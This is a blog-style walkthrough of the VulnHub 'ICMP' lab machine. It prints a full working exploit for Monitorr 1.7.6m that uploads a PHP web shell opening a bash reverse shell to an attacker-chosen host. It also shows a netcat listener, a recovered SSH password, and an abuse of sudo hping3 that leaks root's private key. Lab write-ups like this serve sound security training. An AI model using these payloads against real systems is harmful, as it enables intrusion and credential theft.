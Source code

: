 ```yaml
---
layout: post
title:  "VulnHub - ICMP"
date:   2021-03-07 10:10:05 +0300
categories: [vulnhub,walkthrough]
pin: false
tags: [exploitdb,monitorr,Enumeration,hping3,id_rsa]
---
```



You’ll find this vm in  `https://www.vulnhub.com/entry/icmp-1,633/`

## Port Scan

```bash
nmap 10.0.2.197 -p-
```

```sh
22/tcp open  ssh
80/tcp open  http
```

## Searchsploit

- If we check the port `80` we will see that it runs the `Monitorr` Software

```bash
searchsploit Monitorr
```

```sh            
  ---------------------------------------------- ---------------------------------
   Exploit Title                                |  Path
  ---------------------------------------------- ---------------------------------
  Monitorr 1.7.6m - Authorization Bypass        | php/webapps/48981.py
  Monitorr 1.7.6m - Remote Code Execution (Unau | php/webapps/48980.py
  ---------------------------------------------- ---------------------------------
```

## Python Script - Edited

```python                                                                                                
  #!/usr/bin/python
  # -*- coding: UTF-8 -*-

  # Exploit Title: Monitorr 1.7.6m - Remote Code Execution (Unauthenticated)
  # Date: September 12, 2020
  # Exploit Author: Lyhin's Lab
  # Detailed Bug Description: https://lyhinslab.org/index.php/2020/09/12/how-the-white-box-hacking-works-authorization-bypass-and-remote-code-execution-in-monitorr-1-7-6/
  # Software Link: https://github.com/Monitorr/Monitorr
  # Version: 1.7.6m
  # Tested on: Ubuntu 19

  import requests
  import os
  import sys

  if len (sys.argv) != 4:
  	print ("specify params in format: python " + sys.argv[0] + " target_url lhost lport")
  else:
      url = sys.argv[1] + "/mon/assets/php/upload.php"
      headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/plain, */*; q=0.01", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "X-Requested-With": "XMLHttpRequest", "Content-Type": "multipart/form-data; boundary=---------------------------31046105003900160576454225745", "Origin": sys.argv[1], "Connection": "close", "Referer": sys.argv[1]}

      data = "-----------------------------31046105003900160576454225745\r\nContent-Disposition: form-data; name=\"fileToUpload\"; filename=\"she_ll.php\"\r\nContent-Type: image/gif\r\n\r\nGIF89a213213123<?php shell_exec(\"/bin/bash -c 'bash -i >& /dev/tcp/"+sys.argv[2] +"/" + sys.argv[3] + " 0>&1'\");\r\n\r\n-----------------------------31046105003900160576454225745--\r\n"

      requests.post(url, headers=headers, data=data)

      print ("A shell script should be uploaded. Now we try to execute it")
      url = sys.argv[1] + "/assets/data/usrimg/she_ll.php"
      headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
      requests.get(url, headers=headers)
```

## Reverse Shell

- My VM

```bash
python3 48980.py http://10.0.2.197 10.0.2.15 5555
```
- Listener

```bash
nc -lvp 5555       
listening on [any] 5555 ...
connect to [10.0.2.15] from 10.0.2.197 [10.0.2.197] 46598
www-data@icmp:/var/www/html/mon/assets/data/usrimg$
```

## Enumeration

- reminder

```
crypt with crypt.php: done, it works
work on decrypt with crypt.php: howto?!?
```

```bash
cd devel
cat crypt.php

 <?php
  echo crypt('BUHNIJMONIBUVCYTTYVGBUHJNI','da');
  ?>
```

## SSH Login | USER

- credentials `fox` : `BUHNIJMONIBUVCYTTYVGBUHJNI`
- local.txt : c9db6c88939a2ae091c431a45fb1e59c


## Sudo | hping3
{% highlight sh %}
  $ sudo -l
  [sudo] password for fox:
  Matching Defaults entries for fox on icmp:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

  User fox may run the following commands on icmp:
      (root) /usr/sbin/hping3 --icmp *
      (root) /usr/bin/killall hping3
{% endhighlight %}

## Read root id_rsa using hping3

- Terminal `1`

```bash
sudo -u root /usr/sbin/hping3 --icmp 127.0.0.1 --listen signature --safe
```

- Terminal `2`

```bash
sudo -u root /usr/sbin/hping3 --icmp 127.0.0.1 -d 100 --sign signature --file /root/.ssh/id_rsa
```

- After running the above commands in terminal 1 the id_rsa of root will be printed

## Rooted

```bash
ssh -i id_rsa root@10.0.2.197
```
- proof.txt : 9377e773846aeabb51b37155e15cf638
